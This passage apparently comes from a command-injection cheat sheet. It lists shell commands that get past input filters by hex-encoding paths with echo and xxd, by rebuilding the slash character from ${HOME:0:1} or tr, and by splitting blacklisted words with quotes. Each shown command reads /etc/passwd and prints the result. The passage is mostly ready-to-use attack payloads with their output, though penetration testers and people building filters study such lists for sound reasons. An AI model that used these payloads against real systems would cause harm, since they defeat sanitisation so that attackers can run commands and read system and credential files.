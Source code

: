 ```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass characters filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
```

